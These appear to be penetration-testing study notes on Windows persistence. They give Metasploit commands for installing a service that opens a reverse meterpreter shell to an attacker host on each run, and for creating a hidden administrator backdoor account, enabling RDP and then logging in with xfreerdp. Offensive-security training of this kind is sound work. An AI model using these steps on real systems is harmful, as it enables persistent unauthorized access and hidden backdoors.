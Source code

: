 # Windows Persistence

## Contents
- [MetaSploit Module: persistence_service](#metasploit-module-persistence_service)
  - [Set-Up](#set-up)
  - [Module: persistance_service](#module-persistance_service)
- [Persistence via RDP](#persistence-via-rdp)
  - [The Idea](#the-idea)
  - [Set-Up](#set-up-1)
  - [Create the Backdoor Account: getgui](#create-the-backdoor-account-getgui)
  - [Remote In with xfreerdp](#remote-in-with-xfreerdp)

## MetaSploit Module: persistence_service

### Set-Up
- You have exploited a vulnerable service, gained access, and escalated your privileges via MetaSploit.
- You have a meterpreter session and can do some initial enumeration (`sysinfo`, `getuid`).

### Module: persistance_service
- Background your meterpreter session.
```
> search persistence_service
> use /exploit/windows/local/persistence_service
> set LHOST [attack ip]
> set LPORT [something not in conflict with your current meterpreter session]
> set SESSION [your meterpreter session id#; must have admin privs]
> set PAYLOAD windows/meterpreter/reverse_tcp
> run
```
- This exploit will generate and upload an executable to the target system.
  - It will then make it a persistent service on that machine.
  - So, every time the service is running it will establish a reverse shell to your attack machine.
- And within a few seconds of running the module you should get a meterpeter session reverse shell from the target.

## Persistence via RDP

### The Idea
- We create a backdoor user account.
  - We add that account to the Administrators group
  - That way our backdoor user has admin privs
  - Then we'll enable RDP (Remote Desktop Protocol) so we can login to the target whenever we want.
- Resource: https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/

### Set-Up
- You have exploited a vulnerable service, gained access, and escalated your privileges via MetaSploit.
- You have a meterpreter session and can do some initial enumeration (`sysinfo`, `getuid`).
- Make sure you migrate your meterpreter session to a stable process.

### Create the Backdoor Account: getgui
- PROBLEM: When you create a new user on a Windows machine, that user will show up on the logon screen when the system is booted.
  - We'll need to fix that so it doesn't appear (hide the user from the logon screen)
- This whole process can be simplified into one command (msfconsole): getgui
- From the msfconsole prompt, run the script...
```
> run getgui -e -u [name] -p [password]
```
- `getgui` : This script enables Remote Desktop and creates a user account for you to log into it with.
  - It first checks to see whether the RDP service is enabled; if it is disabled, it will enable it.
  - It will also create a new user and hide that user from the Windows login screen.
- `-e` : enable (checks to see if RDP is running; if not, it enables it: REQUIRED)
- `-u` : create new user
- `-p` : password

### Remote In with xfreerdp
```
xfreerdp /u:[username] /p:[password] /v:[target ip]
```
